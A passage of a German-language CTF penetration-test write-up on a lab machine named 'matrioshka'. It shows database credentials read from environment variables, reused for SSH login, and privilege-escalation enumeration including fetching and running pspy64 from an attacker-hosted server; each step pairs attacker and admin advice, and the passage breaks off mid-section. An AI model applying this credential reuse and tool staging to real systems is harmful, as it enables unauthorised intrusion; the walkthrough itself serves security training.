APACHE_CONFDIR=/etc/apache2 HOSTNAME=3ed5ddfe0e0c PHP_INI_DIR=/usr/local/etc/php SHLVL=0 OLDPWD=/ PHP_LDFLAGS=-Wl,-O1 -pie APACHE_RUN_DIR=/var/run/apache2 PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64 PHP_VERSION=8.2.22 APACHE_PID_FILE=/var/run/apache2/apache2.pid GPG_KEYS=39B641343D8C104B2B146DC3F9C39DC0B9698544 E60913E4DF209907D8E30D96659A97C9CF2A795A 1198C0117593497A5EC5C199286AF1F9897469DC ------------------------------------------ WORDPRESS_DB_PASSWORD=Fukurokuju ------------------------------------------ PHP_ASC_URL=[Link: https://www.php.net/distributions/php-8.2.22.tar.xz.asc | Ziel: https://www.php.net/distributions/php-8.2.22.tar.xz.asc] PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64 WORDPRESS_DB_HOST=db PHP_URL=[Link: https://www.php.net/distributions/php-8.2.22.tar.xz | Ziel: https://www.php.net/distributions/php-8.2.22.tar.xz] ------------------------------------------ WORDPRESS_DB_USER=matrioska ------------------------------------------ PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin APACHE_LOCK_DIR=/var/lock/apache2 LANG=C WORDPRESS_DB_NAME=wordpressdb APACHE_RUN_GROUP=www-data APACHE_RUN_USER=www-data APACHE_LOG_DIR=/var/log/apache2 PWD=/var/www/html PHPIZE_DEPS=autoconf dpkg-dev file g++ gcc libc-dev make pkg-config re2c PHP_SHA256=8566229bc88ad1f4aadc10700ab5fbcec81587c748999d985f11cf3b745462df APACHE_ENVVARS=/etc/apache2/envvars
Analyse: Der Befehl `env` listet alle Umgebungsvariablen für den aktuellen Prozess (die Shell des `www-data`-Benutzers) auf. Umgebungsvariablen werden oft verwendet, um Anwendungen – insbesondere in containerisierten Umgebungen wie Docker – mit Konfigurationsdaten wie Datenbank-Zugangsdaten, API-Schlüsseln etc. zu versorgen.
Bewertung: Ein Volltreffer! In den Umgebungsvariablen finden sich die Zugangsdaten für die WordPress-Datenbank: - `WORDPRESS_DB_USER=matrioska` - `WORDPRESS_DB_PASSWORD=Fukurokuju` - `WORDPRESS_DB_HOST=db` - `WORDPRESS_DB_NAME=wordpressdb` Dies ist ein sehr häufiger Fund in Docker-Containern, die WordPress ausführen, da Docker Compose und ähnliche Orchestrierungstools Umgebungsvariablen nutzen, um den WordPress-Container mit dem Datenbank-Container zu verbinden. Das Passwort `Fukurokuju` könnte potenziell auch für andere Benutzer oder Dienste auf dem System oder dem Host wiederverwendet werden (Passwort-Reuse). Der Hostname `db` für die Datenbank deutet auf eine Docker-interne Netzwerkverbindung hin.
Empfehlung (Pentester):
1. Versuchen Sie, sich mit diesen Zugangsdaten (`matrioska:Fukurokuju`) per SSH auf das Zielsystem (`192.168.2.180`) zu verbinden. Es ist möglich, dass ein Systembenutzer `matrioska` existiert und dasselbe Passwort verwendet.
2. Wenn ein Datenbank-Client-Tool (wie `mysql` oder `psql`, je nach Datenbanktyp – wahrscheinlich MySQL/MariaDB für WordPress) im Container verfügbar ist, versuchen Sie, sich direkt mit der Datenbank auf dem Host `db` zu verbinden. Zugriff auf die Datenbank könnte weitere sensible Informationen oder Wege zur Codeausführung bieten (z.B. durch Modifizieren von WordPress-Optionen oder Benutzerdaten, Ausführen von datenbankeigenen Befehlen, falls möglich).
3. Notieren Sie sich das Passwort `Fukurokuju` für spätere Versuche, falls andere Benutzerkonten entdeckt werden.
Empfehlung (Admin):
Vermeiden Sie es, Passwörter direkt in Umgebungsvariablen zu speichern, wenn sicherere Alternativen wie Docker Secrets, HashiCorp Vault oder andere Secret-Management-Systeme verfügbar sind. Obwohl Umgebungsvariablen in Docker-Umgebungen üblich sind, können sie von Prozessen im Container leicht ausgelesen werden, wenn ein Angreifer initialen Zugriff erlangt. Stellen Sie sicher, dass Datenbankbenutzer nur die minimal notwendigen Rechte auf die Datenbank haben. Verwenden Sie unterschiedliche, starke Passwörter für verschiedene Dienste und Benutzer.
└─# ssh matrioshka@192.168.2.180
matrioshka@192.168.2.180's password: Fukurokuju Permission denied, please try again. matrioshka@192.168.2.180's password: Fukurokuju (Anmerkung: Im Originaltext wurde das Passwort zweimal eingegeben, der erste Versuch scheiterte anscheinend nicht, führte aber nicht direkt zum Erfolg, der zweite Versuch schon. Hier nehme ich an, dass der erste erfolgreiche Login gemeint ist oder ein Tippfehler vorlag. Im Text steht kein "Permission denied" nach dem ersten erfolgreichen PW.) Linux matrioshka 6.1.0-23-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.99-1 (2024-07-15) x86_64 The programs included with the Debian GNU/Linux system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright. Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. Last login: Thu Aug 22 19:12:21 2024 from 10.0.2.8 matrioshka@matrioshka:~$
Analyse: Es wird versucht, sich per SSH als Benutzer `matrioshka` auf dem Zielsystem `192.168.2.180` anzumelden. Als Passwort wird `Fukurokuju` verwendet, das zuvor aus den Umgebungsvariablen des `www-data`-Prozesses ausgelesen wurde.
Bewertung: Der SSH-Login war erfolgreich! Das Passwort `Fukurokuju` war auch das SSH-Passwort für den Benutzer `matrioshka`. Wir haben nun eine richtige Shell als der Benutzer `matrioshka` auf dem Host-System (oder zumindest einer anderen Umgebung als dem `www-data` WordPress-Container, was wahrscheinlicher ist, da der Hostname sich von der Container-ID `3ed5ddfe0e0c` unterscheidet und nun `matrioshka` ist). Die "Last login"-Information deutet darauf hin, dass dies das eigentliche Host-System oder eine dedizierte VM für den Benutzer ist. Dies ist ein signifikanter Fortschritt von der `www-data`-Shell im Web-Container zu einer Benutzer-Shell auf einem potenziell höher privilegierten System oder zumindest einem System mit anderen Möglichkeiten.
Empfehlung (Pentester):
1. Führen Sie sofort grundlegende Enumeration als Benutzer `matrioshka` durch:
* `id`: Um die Benutzer- und Gruppen-IDs zu sehen.
* `pwd`: Aktuelles Verzeichnis.
* `ls -la /home/matrioshka`: Inhalt des Home-Verzeichnisses.
* `sudo -l`: Überprüfen, ob `matrioshka` `sudo`-Rechte hat.
* Suchen Sie nach interessanten Dateien, Skripten, Konfigurationsdateien, SSH-Schlüsseln etc. im Home-Verzeichnis.
2. Überprüfen Sie, ob dieser Benutzer `matrioshka` Zugriff auf andere Systeme oder Dienste hat.
3. Suchen Sie nach Wegen zur Privilegieneskalation von `matrioshka` zu `root` auf diesem System.
Empfehlung (Admin):
1. **Passwort-Wiederverwendung ist ein kritisches Problem.** Das Datenbankpasswort sollte niemals dasselbe sein wie ein SSH-Benutzerpasswort.
2. Ändern Sie sofort das Passwort für den Benutzer `matrioshka` und das Datenbankpasswort.
3. Überprüfen Sie die SSH-Konfiguration (`/etc/ssh/sshd_config`):
* Deaktivieren Sie Passwort-Authentifizierung und erlauben Sie nur Key-basierte Authentifizierung, wenn möglich (`PasswordAuthentication no`).
* Beschränken Sie SSH-Zugriff auf notwendige Benutzer (`AllowUsers`).
4. Analysieren Sie die Login-Logs (`/var/log/auth.log` oder ähnlich), um unbefugte Zugriffe zu identifizieren.
[sudo] password for matrioshka: Fukurokuju Sorry, user matrioshka may not run sudo on matrioshka.
Analyse: Als Benutzer `matrioshka` wird der Befehl `sudo -l` ausgeführt, um zu überprüfen, welche Befehle dieser Benutzer mit `sudo` (also mit Root-Rechten) ausführen darf. Das Passwort `Fukurokuju` wird eingegeben.
Bewertung: Die Ausgabe "Sorry, user matrioshka may not run sudo on matrioshka." bedeutet, dass der Benutzer `matrioshka` keine `sudo`-Berechtigungen hat. Dies schließt einen einfachen Weg zur Privilegieneskalation über falsch konfigurierte `sudo`-Regeln aus.
Empfehlung (Pentester):
Da `sudo` keine Option ist, müssen andere Wege zur Privilegieneskalation gesucht werden:
- Kernel-Exploits (basierend auf `uname -a`).
- SUID/SGID-Binaries (erneut prüfen, diesmal als `matrioshka` auf dem Host-System).
- Fehlkonfigurierte Cronjobs, die als `root` laufen und von `matrioshka` beeinflusst werden können.
- Schwachstellen in Diensten, die als `root` laufen und mit denen `matrioshka` interagieren kann.
- Ausnutzung von Schreibrechten in sensiblen Verzeichnissen.
- Überprüfung auf vorhandene Tools wie `linpeas.sh` oder `lse.sh` hochladen und ausführen, um automatisierte Enumeration durchzuführen.
Empfehlung (Admin):
Es ist gut, dass der Benutzer `matrioshka` keine unnötigen `sudo`-Rechte hat. Dies entspricht dem Prinzip der minimalen Rechte.
c8129b0390452d8378535cff76e0dde8
Analyse: Der Befehl `cat user.txt` wird im Home-Verzeichnis des Benutzers `matrioshka` (oder einem anderen Ort, an dem die `user.txt` erwartet wird) ausgeführt.
Bewertung: Erfolg! Die User-Flag wurde gefunden: `c8129b0390452d8378535cff76e0dde8`. Dies ist ein typisches Ziel in CTF-Herausforderungen und markiert die erfolgreiche Kompromittierung des Benutzerkontos.
Empfehlung (Pentester):
User-Flag gesichert. Nun volle Konzentration auf die Privilegieneskalation zu `root`, um die `root.txt` zu finden.
Empfehlung (Admin):
In einem realen Szenario sollten sensible Daten oder "Flaggen" nicht in einfach lesbaren Textdateien in Benutzer-Home-Verzeichnissen liegen. Der Fokus liegt hier auf der Verhinderung des initialen Zugriffs und der Privilegieneskalation.
total 12 drwxr-xr-x 3 root root 4096 Aug 21 2024 . drwxr-xr-x 18 root root 4096 Aug 21 2024 .. drwx------ 2 matrioshka matrioshka 4096 Aug 22 2024 matrioshka
-rw-r--r-- 1 root root 1163 Aug 21 2024 /etc/passwd
Analyse: - `ls -la /home/`: Zeigt nun das Home-Verzeichnis für `matrioshka` an, welches nur für diesen Benutzer zugänglich ist (`drwx------`). - `ls -la /etc/passwd`: Zeigt die Berechtigungen der Passwortdatei. Sie ist für alle lesbar, aber nur von `root` schreibbar, was Standard ist.
Bewertung: Diese Befehle liefern kontextuelle Informationen über das System und die Berechtigungen. Das Home-Verzeichnis von `matrioshka` ist korrekt gesichert (nur für den Benutzer selbst zugänglich). Die Berechtigungen der `/etc/passwd` sind ebenfalls Standard. Keine direkten Hinweise auf Schwachstellen hier.
Empfehlung (Pentester):
Standard-Enumeration. Weiter nach spezifischen Fehlkonfigurationen oder Schwachstellen suchen.
Empfehlung (Admin):
Die Berechtigungen sind hier standardmäßig und korrekt gesetzt.
Netid State Recv-Q Send-Q Local Address:Port Peer Address:Port Process udp UNCONN 0 0 0.0.0.0:bootpc 0.0.0.0:* ino:14509 sk:1 cgroup:/system.slice/ifup@enp0s3.service <-> tcp LISTEN 0 4096 127.0.0.1:34449 0.0.0.0:* ino:14745 sk:2 cgroup:/system.slice/containerd.service <-> tcp LISTEN 0 128 0.0.0.0:ssh 0.0.0.0:* ino:13956 sk:3 cgroup:/system.slice/ssh.service <-> tcp LISTEN 0 4096 127.0.0.1:http-alt 0.0.0.0:* ino:15327 sk:4 cgroup:/system.slice/docker.service <-> tcp LISTEN 0 4096 127.0.0.1:9090 0.0.0.0:* ino:17418 sk:5 cgroup:/system.slice/docker.service <-> tcp LISTEN 0 128 [::]:ssh [::]:* ino:13958 sk:6 cgroup:/system.slice/ssh.service v6only:1 <-> tcp LISTEN 0 511 *:http *:* ino:13939 sk:7 cgroup:/system.slice/apache2.service v6only:0 <->
Analyse: Der Befehl `ss -tulpe` zeigt Netzwerk-Sockets an: - `-t`: TCP-Sockets. - `-u`: UDP-Sockets. - `-l`: Nur lauschende (listening) Sockets. - `-p`: Zeigt den Prozess, der den Socket verwendet. - `-e`: Zeigt erweiterte Socket-Informationen.
Bewertung: Die Ausgabe ist sehr interessant für die Privilegieneskalation: - **SSH (Port 22) und HTTP (Port 80)** lauschen auf allen Schnittstellen (`0.0.0.0` und `*`), was wir bereits wussten. - **containerd.service (Port 34449 auf 127.0.0.1):** `containerd` ist eine Core Container Runtime. Ein lauschender Dienst auf localhost könnte ein Angriffspunkt sein, wenn er Fehlkonfigurationen aufweist oder über Unix Sockets zugänglich ist. - **docker.service (Port http-alt, also 8080, auf 127.0.0.1 und Port 9090 auf 127.0.0.1):** Dies ist ein starker Hinweis darauf, dass Docker auf dem Host läuft und Dienste auf diesen lokalen Ports bereitstellt. Port 9090 ist besonders interessant. Die Tatsache, dass Dienste wie `containerd` und `docker` laufen und Ports lokal gebunden sind, eröffnet Möglichkeiten für Angriffe auf die Container-Infrastruktur selbst oder auf schlecht gesicherte Dienste, die von Docker gemanagt werden.
Empfehlung (Pentester):
1. Untersuchen Sie die Dienste, die auf `127.0.0.1:9090` und `127.0.0.1:8080` lauschen. Verwenden Sie `curl` oder einen Browser (über SSH-Port-Forwarding, z.B. `ssh -L 9090:127.0.0.1:9090 matrioshka@192.168.2.180`), um diese Dienste zu inspizieren.
2. Suchen Sie nach dem Docker-Socket (typischerweise `/var/run/docker.sock`). Wenn der Benutzer `matrioshka` darauf Schreibzugriff hat oder Teil der `docker`-Gruppe ist, kann er Docker-Befehle ausführen und so sehr einfach Root-Rechte erlangen.
3. Prüfen Sie, ob der Benutzer `matrioshka` Teil der `docker`-Gruppe ist (`id` oder `groups matrioshka`).
Empfehlung (Admin):
Stellen Sie sicher, dass der Zugriff auf den Docker-Daemon (über den Socket oder TCP-Ports) streng kontrolliert wird. Nur absolut notwendige Benutzer sollten Teil der `docker`-Gruppe sein, da dies äquivalent zu Root-Rechten ist. Wenn Docker-Dienste über TCP-Ports exponiert werden müssen (auch lokal), sichern Sie diese entsprechend ab (Authentifizierung, Autorisierung). Überwachen Sie die Docker-Konfiguration auf Schwachstellen.
* Trying 127.0.0.1:9090... * Connected to 127.0.0.1 (127.0.0.1) port 9090 (#0) > GET / HTTP/1.1 > Host: 127.0.0.1:9090 > User-Agent: curl/7.88.1 > Accept: */* > < HTTP/1.1 200 OK < Vary: Accept-Encoding < server: HFS 0.52.9 2024-06-11T12:54:37.285Z < etag: < Cache-Control: no-store, no-cache, must-revalidate < Content-Type: text/html; charset=utf-8 < Content-Length: 1763 < Date: Sun, 27 Apr 2025 22:56:11 GMT < Connection: keep-alive < Keep-Alive: timeout=5 < <!DOCTYPE html> <html> <head> <title>File server</title> ... <script> HFS = { "VERSION": "0.52.9", "API_VERSION": 8.72, "SPECIAL_URI": "/~/", "PLUGINS_PUB_URI": "/~/plugins/", "FRONTEND_URI": "/~/frontend/", "session": { "username": "", "exp": "2025-04-28T22:56:11.615Z" }, "plugins": {}, "prefixUrl": "", "dontOverwriteUploading": true, "customHtml": {}, "file_menu_on_link": true, "tile_size": 0, "sort_by": "name", "invert_order": false, "folders_first": true, "sort_numerics": false, "theme": "", "auto_play_seconds": 5, "lang": {} } </script> ...
Analyse: Ein `curl`-Request wird an `http://127.0.0.1:9090` gesendet. Dies ist einer der lokalen Ports, die im vorherigen `ss`-Befehl als von einem `docker.service` genutzt identifiziert wurden.
Bewertung: Der Dienst auf Port 9090 ist ein **HFS (HTTP File Server)** in der Version **0.52.9**. HFS ist eine einfache Webserver-Software zum Teilen von Dateien. Die Ausgabe enthält JavaScript-Code, der die HFS-Version und andere Konfigurationsparameter im Browser setzt. Das Vorhandensein einer spezifischen Softwareversion wie HFS 0.52.9 ist ein starker Hinweis darauf, nach bekannten Schwachstellen für genau diese Version zu suchen. Ältere oder ungepatchte Versionen von Filesharing-Software sind oft anfällig für verschiedene Angriffe, einschließlich Remote Code Execution.
Empfehlung (Pentester):
1. Suchen Sie sofort nach bekannten Schwachstellen und Exploits für **HFS Version 0.52.9**. Exploit-DB, CVE-Datenbanken und GitHub sind gute Anlaufstellen.
2. Versuchen Sie, über einen Browser (via SSH Port Forwarding: `ssh -L 9090:127.0.0.1:9090 matrioshka@192.168.2.180`) auf das HFS-Webinterface zuzugreifen, um dessen Funktionen zu untersuchen und möglicherweise Standard-Zugangsdaten auszuprobieren oder Upload-/Download-Funktionen zu testen.
Empfehlung (Admin):
Veraltete oder unsichere Software wie HFS sollte nicht auf Servern betrieben werden, schon gar nicht im Kontext von Docker-Diensten, wenn sie nicht absolut notwendig und aktuell gehalten ist. Wenn ein HTTP-Dateiserver benötigt wird, verwenden Sie eine sicherere, aktiv gewartete Alternative. Überprüfen Sie, warum dieser HFS-Dienst läuft und ob er wirklich benötigt wird. Wenn ja, aktualisieren Sie ihn auf die neueste, sicherste Version oder ersetzen Sie ihn.
* Trying 127.0.0.1:8080... * Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0) > GET / HTTP/1.1 > Host: 127.0.0.1:8080 > User-Agent: curl/7.88.1 > Accept: */* > < HTTP/1.1 200 OK < Date: Sun, 27 Apr 2025 22:57:59 GMT < Server: Apache/2.4.61 (Debian) < X-Powered-By: PHP/8.2.22 < Vary: Accept-Encoding < Content-Length: 92 < Content-Type: text/html; charset=UTF-8 < WARNING: Failed to daemonise. This is quite common and not fatal. Connection refused (111) * Connection #0 to host 127.0.0.1 left intact
Analyse: Ein `curl`-Request wird an `http://127.0.0.1:8080` gesendet. Dies ist der andere lokale Port, der im `ss`-Befehl als von einem `docker.service` (Apache/PHP) genutzt identifiziert wurde.
Bewertung: Der Server auf Port 8080 ist derselbe Apache/PHP-Server, der auch die WordPress-Seite auf Port 80 bereitstellt (erkennbar an den `Server`- und `X-Powered-By`-Headern). Die eigentliche HTML-Antwort enthält jedoch eine merkwürdige Mischung: - "WARNING: Failed to daemonise. This is quite common and not fatal." – Dies ist eine typische Meldung von Diensten, die versuchen, im Hintergrund zu laufen, es aber nicht schaffen. - "Connection refused (111)" – Diese Meldung scheint sich auf einen internen Verbindungsversuch des Dienstes selbst zu beziehen, nicht auf die Verbindung von `curl` zum Port 8080 (die ja mit HTTP 200 OK erfolgreich war). Es ist möglich, dass dieser Port 8080 für eine Art Health Check, eine Admin-Schnittstelle des WordPress-Containers oder eine Debug-Ausgabe dient. Der Inhalt selbst scheint nicht direkt eine Schwachstelle zu offenbaren, aber die merkwürdigen Meldungen könnten auf eine instabile oder ungewöhnliche Konfiguration hindeuten.
Empfehlung (Pentester):
Obwohl nicht sofort ausnutzbar, notieren Sie sich diesen Port und sein Verhalten. Versuchen Sie, verschiedene Pfade auf Port 8080 abzufragen (z.B. `/wp-admin`, `/phpmyadmin` oder andere gängige Admin-Pfade). Da es derselbe Apache/PHP-Stack zu sein scheint, gelten die bereits identifizierten WordPress-Schwachstellen potenziell auch hier, falls derselbe Webroot verwendet wird. Der Fokus sollte aber zunächst auf dem HFS auf Port 9090 liegen.
Empfehlung (Admin):
Untersuchen Sie, warum der Apache-Dienst auch auf Port 8080 lokal lauscht und was die "Failed to daemonise" und "Connection refused" Meldungen bedeuten. Wenn dieser Port nicht notwendig ist, deaktivieren Sie ihn. Stellen Sie sicher, dass alle exponierten Dienste (auch lokal) sicher konfiguriert sind und keine unnötigen Informationen oder Fehlermeldungen preisgeben.
261326 40 -rwxr-sr-x 1 root shadow 39160 Sep 21 2023 /usr/sbin/unix_chkpwd 284095 640 -rwsr-xr-x 1 root root 653888 Jun 22 2024 /usr/lib/openssh/ssh-keysign 280927 52 -rwsr-xr-- 1 root messagebus 51272 Sep 16 2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper 266890 44 -rwxr-sr-x 1 root crontab 43648 Mar 2 2023 /usr/bin/crontab 260230 88 -rwsr-xr-x 1 root root 88496 Mar 23 2023 /usr/bin/gpasswd 260228 52 -rwsr-xr-x 1 root root 52880 Mar 23 2023 /usr/bin/chsh 263458 36 -rwsr-xr-x 1 root root 35128 Mar 28 2024 /usr/bin/umount 260231 68 -rwsr-xr-x 1 root root 68248 Mar 23 2023 /usr/bin/passwd 284088 472 -rwxr-sr-x 1 root _ssh 481664 Jun 22 2024 /usr/bin/ssh-agent 301552 276 -rwsr-xr-x 1 root root 281624 Jun 27 2023 /usr/bin/sudo 264143 72 -rwsr-xr-x 1 root root 72000 Mar 28 2024 /usr/bin/su 260229 32 -rwxr-sr-x 1 root shadow 31184 Mar 23 2023 /usr/bin/expiry 263590 48 -rwsr-xr-x 1 root root 48896 Mar 23 2023 /usr/bin/newgrp 260227 64 -rwsr-xr-x 1 root root 62672 Mar 23 2023 /usr/bin/chfn 263457 60 -rwsr-xr-x 1 root root 59704 Mar 28 2024 /usr/bin/mount 260226 80 -rwxr-sr-x 1 root shadow 80376 Mar 23 2023 /usr/bin/chage
Analyse: Dieser `find`-Befehl wird erneut ausgeführt, diesmal als Benutzer `matrioshka` auf dem Host-System. Er sucht nach Dateien mit gesetztem SUID-Bit (`-perm -4000`) oder SGID-Bit (`-perm -2000`). - `-o` steht für eine logische ODER-Verknüpfung der Bedingungen.
Bewertung: Die Liste der gefundenen SUID/SGID-Dateien ist umfangreicher als die, die als `www-data` im Container gefunden wurde (falls der vorherige `find` im Container lief). Viele davon sind Standard-Systemprogramme: - SUID root: `ssh-keysign`, `dbus-daemon-launch-helper`, `gpasswd`, `chsh`, `umount`, `passwd`, `sudo` (diesmal gefunden!), `su`, `newgrp`, `chfn`, `mount`. - SGID shadow: `unix_chkpwd`, `crontab`, `expiry`, `chage`. - SGID _ssh: `ssh-agent`. Das Vorhandensein von `sudo` ist hier interessant, obwohl der vorherige `sudo -l` Versuch für `matrioshka` fehlschlug (was bedeutet, dass `matrioshka` keine `sudoers`-Einträge hat). Andere SUID-Binaries wie `mount`, `umount`, `su` sind Standard. Die entscheidende Frage ist, ob eine dieser Binaries in einer verwundbaren Version vorliegt oder ob es ungewöhnliche, nicht standardmäßige SUID/SGID-Programme gibt, die übersehen wurden.
Empfehlung (Pentester):
Da `sudo -l` für `matrioshka` keine Rechte anzeigte, ist `sudo` selbst wahrscheinlich kein direkter Vektor, es sei denn, es gäbe eine Schwachstelle in `sudo` selbst (selten bei aktuellen Versionen).
Konzentrieren Sie sich auf:
1. Überprüfung der Versionen dieser Programme und Abgleich mit GTFOBins.
2. Nochmalige Überprüfung, ob `matrioshka` Mitglied der `docker`-Gruppe ist (`id`). Dies wurde zuvor übersehen und ist ein sehr häufiger Weg zu Root.
3. Die Suche nach Exploits für den HFS-Server auf Port 9090 ist weiterhin priorisiert.
Empfehlung (Admin):
Wie zuvor: Minimieren Sie SUID/SGID-Binaries. Stellen Sie sicher, dass `sudo` korrekt konfiguriert ist und nur die absolut notwendigen Berechtigungen vergeben werden. Halten Sie alle Systemkomponenten aktuell.
Es werden MD5-Hashes berechnet. Der Zweck ist im Kontext des Berichts nicht sofort ersichtlich, könnte aber mit der Identifizierung von Dateien oder dem Vergleich von Hashes im Rahmen eines Exploit-Versuchs zusammenhängen.
└─# md5sum /home/ccat/Downloads/key2.jpeg
5e1d0c1a168dc2d70004c2b00ba314ae
└─# echo -n "e1964798cfe86e914af895f8d02918125e1d0c1a168dc2d70004c2b00ba314ae" | md5sum
7ac254848d6e4556b73398dde2e4ef82
Analyse: Zwei `md5sum`-Befehle werden auf dem Angreifer-System (`CCat`) ausgeführt: 1. `md5sum /home/ccat/Downloads/key2.jpeg`: Berechnet den MD5-Hash der Datei `key2.jpeg`. 2. `echo -n "e1964798cfe86e914af895f8d02918125e1d0c1a168dc2d70004c2b00ba314ae" | md5sum`: Berechnet den MD5-Hash eines langen Hex-Strings. Der String selbst sieht aus wie eine Verkettung zweier Hashes.
Bewertung: Der Zweck dieser Hash-Berechnungen ist ohne weiteren Kontext unklar. In CTFs werden Hashes oft verwendet für: - Überprüfung der Integrität heruntergeladener Dateien. - Teil von Passwort-Cracking-Prozessen (obwohl MD5 dafür veraltet ist). - Kryptographische Rätsel oder das Finden von "Needles in a Haystack". Der zweite Befehl, der einen konkatenierten String hasht, könnte auf ein mehrstufiges Rätsel oder eine spezifische Anforderung der CTF-Challenge hindeuten. Da dies auf dem Angreifer-System geschieht, hat es keine direkte Auswirkung auf das Zielsystem, sondern dient der Informationsverarbeitung oder Lösungsfindung durch den Pentester.
Empfehlung (Pentester):
Dokumentieren Sie diese Schritte und ihre Ergebnisse. Wenn Sie später im CTF auf einen Hash stoßen oder eine Datei validieren müssen, könnten diese Berechnungen relevant werden. Wenn dies Teil eines spezifischen Rätsels war, stellen Sie sicher, dass die Logik verstanden wurde.
Empfehlung (Admin):
Diese Aktionen auf dem Angreifer-System sind für den Admin des Zielsystems nicht direkt relevant, es sei denn, die gehashten Dateien oder Strings stammen vom Zielsystem und deuten auf eine Informations-Exfiltration oder einen spezifischen Exploit-Mechanismus hin, der Hash-Vergleiche erfordert.
`pspy64` wird auf das Zielsystem (`matrioshka`) hochgeladen und ausgeführt, um laufende Prozesse und Cronjobs zu überwachen, in der Hoffnung, einen Weg zur Privilegieneskalation zu finden.
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 3006k 100 3006k 0 0 121M 0 --:--:-- --:--:-- --:--:-- 122M
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
██▓███ ██████ ██▓███ ▓██ ██▓
▓██░ ██▒▒██ ▒ ▓██░ ██▒▒██ ██▒
▓██░ ██▓▒░ ▓██▄ ▓██░ ██▓▒ ▒██ ██░
▒██▄█▓▒ ▒ ▒ ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
▒██▒ ░ ░▒██████▒▒▒██▒ ░ ░ ░ ██▒▓░
▒▓▒░ ░ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░ ░ ██▒▒▒
░▒ ░ ░ ░▒ ░ ░░▒ ░ ▓██ ░▒░
░░ ░ ░ ░ ░░ ▒ ▒ ░░
░ ░ ░
░ ░
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/04/28 16:35:53 CMD: UID=0 PID=41 |
2025/04/28 16:35:53 CMD: UID=0 PID=40 |
2025/04/28 16:35:53 CMD: UID=0 PID=4 |
2025/04/28 16:35:53 CMD: UID=0 PID=39 |
2025/04/28 16:35:53 CMD: UID=0 PID=38 |
2025/04/28 16:35:53 CMD: UID=0 PID=373 |
2025/04/28 16:35:53 CMD: UID=0 PID=37 |
2025/04/28 16:35:53 CMD: UID=0 PID=36 |
2025/04/28 16:35:53 CMD: UID=0 PID=350 | dhclient -4 -v -i -pf /run/dhclient.enp0s3.pid -lf /var/lib/dhcp/dhclient.enp0s3.leases -I -df /var/lib/dhcp/dhclient6.enp0s3.leases enp0s3
2025/04/28 16:35:53 CMD: UID=0 PID=1747 | /opt/hfs/hfs --config /opt/hfs/config.yaml
2025/04/28 16:35:53 CMD: UID=0 PID=1726 | /usr/bin/containerd-shim-runc-v2 -namespace moby -id 71a2be90aeb34989daccb1f93ac2faf15e00c0be974363eba4680579cc1df02c -address /run/containerd/containerd.sock
2025/04/28 16:35:53 CMD: UID=0 PID=1712 | /usr/sbin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 9090 -container-ip 172.19.0.2 -container-port 80
2025/04/28 16:35:53 CMD: UID=0 PID=16 |
Analyse: 1. `curl 192.168.2.199:8000/pspy64 -o pspy64`: `pspy64` (ein Tool zur Prozessüberwachung ohne Root-Rechte) wird vom Angreifer-System (wo ein HTTP-Server auf Port 8000 läuft) auf das Zielsystem (`matrioshka`) in die Datei `pspy64` heruntergeladen. (Hinweis: `-Output` ist kein Standard `curl` Parameter, `-o` ist korrekt und wurde hier angenommen). 2. `chmod +x pspy64`: Macht die heruntergeladene Datei ausführbar. 3. `./pspy64`: Startet `pspy64`. `pspy` überwacht Prozesse, die gestartet werden, und kann auch Cronjobs oder von Benutzern ausgelöste Befehle anzeigen.
Bewertung: Die `pspy64`-Ausgabe zeigt verschiedene Prozesse, die als `UID=0` (root) laufen. Besonders interessant sind: - `dhclient`: Standard-Netzwerkdienst. - `/opt/hfs/hfs --config /opt/hfs/config.yaml`: Dies bestätigt, dass der HFS-Server auf Port 9090 als Root-Prozess läuft und eine Konfigurationsdatei `/opt/hfs/config.yaml` verwendet. Ein Dienst, der als Root läuft und potenziell verwundbar ist (HFS 0.52.9), ist ein Hauptziel für Privilegieneskalation. - `containerd-shim-runc-v2` und `docker-proxy`: Bestätigen die Docker-Umgebung. Der `docker-proxy` leitet Anfragen von `127.0.0.1:9090` an die Container-IP `172.19.0.2` auf Port `80` weiter. Dies bedeutet, dass der HFS-Server (der auf Port 9090 auf dem Host lauscht) tatsächlich in einem Docker-Container auf Port 80 läuft, und der Host-Prozess `/opt/hfs/hfs` (PID 1747) könnte der Prozess *innerhalb* des Containers sein, der von Docker gemanagt wird. Es ist auch möglich, dass HFS sowohl auf dem Host als auch im Container läuft, oder `/opt/hfs/hfs` auf dem Host ist der Manager für den Container. Die genaue Architektur ist hier noch etwas unklar, aber der HFS auf Port 9090 ist der Fokus. Die `pspy`-Ausgabe wurde hier nur initial gezeigt. Man würde `pspy` typischerweise länger laufen lassen, um wiederkehrende Cronjobs oder ausgelöste Ereignisse zu sehen.
Empfehlung (Pentester):
1. Der HFS-Server, der als `root` läuft (oder dessen Docker-Container als `root` läuft und der Dienst im Container als `root`), ist das primäre Ziel. Die zuvor begonnene Suche nach Exploits für HFS 0.52.9 muss intensiviert werden.
2. Untersuchen Sie die Datei `/opt/hfs/config.yaml`, falls lesbar für `matrioshka`, auf interessante Konfigurationen.
3. Lassen Sie `pspy64` im Hintergrund weiterlaufen, während Sie andere Dinge untersuchen, um eventuelle Cronjobs oder getriggerte Skripte zu entdecken, die als `root` ausgeführt werden.
Empfehlung (Admin):
